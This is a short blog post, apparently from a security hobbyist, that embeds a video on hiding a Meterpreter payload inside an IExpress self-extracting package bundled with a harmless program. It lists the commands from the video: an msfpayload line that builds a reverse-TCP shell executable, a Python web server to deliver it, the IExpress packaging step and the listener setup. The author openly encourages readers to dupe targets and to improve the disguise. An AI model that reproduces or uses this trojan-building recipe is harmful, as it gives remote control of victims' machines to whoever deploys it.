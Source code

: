 = Metasploit heart's Microsoft
:hp-tags: iexpress, metasploit

<iframe src="//player.vimeo.com/video/3440084" width="500" height="361" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe> <p><a href="http://vimeo.com/3440084">Hiding Meterpreter with IExpress</a> from <a href="http://vimeo.com/mubix">mubix</a> on <a href="https://vimeo.com">Vimeo</a>.</p>
  
Using the IExpress, a built in tool (XP, not sure about other Windows versions), we package two executables together, so that the target is less likely to suspect foul play. Now, I used calc.exe, but you can use anything on both sides of the coin. Use a better game so that it's easyier to dupe, or a different malicious executable (leekspin perhaps?).  
  
I'll let your minds take this to the level I know you all are capable of. One caveat is that the icon for the executable is that of the self extractor, which shouldn't be that much of an issue to change, but I don't know off the top of my head of an app that does it, so please comment and let me know if you do.  
  
Commands from video:  

* `./msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=1080 X > /tmp/academy/bob.exe`
* (For python 2.4+) python -m SimpleHTTPServer
* (For python 2.3 -) python -c "from SimpleHTTPServer import test; test()"
* Start -> Run -> iexpress <return>
* Run multi/hander from command line (not shown in video)
  
  
Links from video:  

  * [http://www.metasploit.com/](http://www.metasploit.com/)
  * [http://www.shell-fu.org/](http://www.shell-fu.org/)
  * [http://www.microsoft.com/technet/prodtechnol/ie/ieak/techinfo/deploy/60/en/iexpress.mspx?mfr=true](http://www.microsoft.com/technet/prodtechnol/ie/ieak/techinfo/deploy/60/en/iexpress.mspx?mfr=true)
  * [http://www.virustotal.com/](http://www.virustotal.com/)
  * [http://www.theacademypro.com/](http://www.theacademypro.com/)
  * [http://www.theacademyhome.com/](http://www.theacademyhome.com/)
  

